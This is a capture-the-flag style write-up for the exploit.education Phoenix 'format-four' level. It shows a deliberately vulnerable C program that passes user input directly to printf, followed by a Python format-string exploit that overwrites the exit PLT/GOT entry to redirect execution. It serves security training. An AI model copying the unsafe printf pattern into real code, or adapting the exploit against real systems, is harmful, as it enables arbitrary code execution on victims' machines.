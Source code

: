 # Format Four

## Code

```
/*
 * phoenix/format-four, by https://exploit.education
 *
 * Can you affect code execution? Once you've got congratulations() to
 * execute, can you then execute your own shell code?
 *
 * Did you get a hair cut?
 * No, I got all of them cut.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

void bounce(char *str) {
  printf(str);
  exit(0);
}

void congratulations() {
  printf("Well done, you're redirected code execution!\n");
  exit(0);
}

int main(int argc, char **argv) {
  char buf[4096];

  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);
}
```

## Solution
As before we need to change a value, in this case we need to change the address (0x80497e4) the exit adrress in the plt to point to the cpngratulation address (0x08048503). We can get the congratulations address using objdump, and gdb for the exit address.

```
import struct

add = 0x80497e4
buff = struct.pack("<I", add)
buff += "JUNK"
buff += struct.pack("<I", add + 2)
buff += "%08x" * 10 + "%" + str(0x8503 - len(buff) - 80) + "x" + "%n"
buff += "%" + str(0x10804 - 0x8503) + "x" + "%n"

print(buff)
```

```
python ~/format4.py | ./format-four
```

